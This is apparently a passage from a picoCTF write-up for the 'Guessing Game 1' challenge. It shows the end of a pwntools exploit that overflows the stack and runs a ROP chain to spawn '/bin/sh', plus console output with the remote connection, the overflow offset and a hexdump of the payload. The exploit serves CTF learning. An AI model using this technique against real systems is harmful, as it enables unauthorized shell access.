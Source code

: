 ```python
    rop += rebase_0(0x0000000000049e35) # 0x0000000000449e35: syscall; ret;

    return rop

io = start()

io.recvuntil("Welcome to my guessing game!")

overflow_offset = get_overflow_offset()

payload = fit({overflow_offset: get_rop()})
assert(len(payload) <= 360)

gg1 = GuessingGame1(io)
gg1.send_payload(payload)
io.interactive()
```

The script uses the `c_rand` module to get the `rand()` value and guess correctly the missing number, then uses the `cyclic` pattern to find the overflow offset in `get_overflow_offset`, and finally overwrites the stack at the overflow offset with the ROP chain generated by `ropper`.

Output:

```console
root@kali:/media/sf_CTFs/pico/Guessing_Game_1# python3 exploit.py
[*] '/media/sf_CTFs/pico/Guessing_Game_1/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to jupiter.challenges.picoctf.org on port 28951: Done
[+] Starting local process '/media/sf_CTFs/pico/Guessing_Game_1/vuln': pid 15083
[*] Process '/media/sf_CTFs/pico/Guessing_Game_1/vuln' stopped with exit code -11 (SIGSEGV) (pid 15083)
[+] Parsing corefile...: Done
[*] '/media/sf_CTFs/pico/Guessing_Game_1/core.15083'
    Arch:      amd64-64-little
    RIP:       0x400c8b
    RSP:       0x7ffdcc0bc5a8
    Exe:       '/media/sf_CTFs/pico/Guessing_Game_1/vuln' (0x400000)
    Fault:     0x6161616161616170
[*] Overflow offset: 120
[*] Guessing: '84'
[*] Sending payload:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  6b 61 61 61  6c 61 61 61  │iaaa│jaaa│kaaa│laaa│
    00000030  6d 61 61 61  6e 61 61 61  6f 61 61 61  70 61 61 61  │maaa│naaa│oaaa│paaa│
    00000040  71 61 61 61  72 61 61 61  73 61 61 61  74 61 61 61  │qaaa│raaa│saaa│taaa│
    00000050  75 61 61 61  76 61 61 61  77 61 61 61  78 61 61 61  │uaaa│vaaa│waaa│xaaa│
    00000060  79 61 61 61  7a 61 61 62  62 61 61 62  63 61 61 62  │yaaa│zaab│baab│caab│
    00000070  64 61 61 62  65 61 61 62  eb db 40 00  00 00 00 00  │daab│eaab│··@·│····│
    00000080  2f 2f 62 69  6e 2f 73 68  96 06 40 00  00 00 00 00  │//bi│n/sh│··@·│····│
    00000090  e0 a0 6b 00  00 00 00 00  c9 95 46 00  00 00 00 00  │··k·│····│··F·│····│
    000000a0  ef be ad de  ef be ad de  ef be ad de  ef be ad de  │····│····│····│····│
    *
    000000c0  eb db 40 00  00 00 00 00  00 00 00 00  00 00 00 00  │··@·│····│····│····│
    000000d0  96 06 40 00  00 00 00 00  e8 a0 6b 00  00 00 00 00  │··@·│····│··k·│····│
    000000e0  c9 95 46 00  00 00 00 00  ef be ad de  ef be ad de  │··F·│····│····│····│
    000000f0  ef be ad de  ef be ad de  ef be ad de  ef be ad de  │····│····│····│····│
    00000100  ef be ad de  ef be ad de  96 06 40 00  00 00 00 00  │····│····│··@·│····│
    00000110  e0 a0 6b 00  00 00 00 00  a3 0c 41 00  00 00 00 00  │··k·│····│··A·│····│
```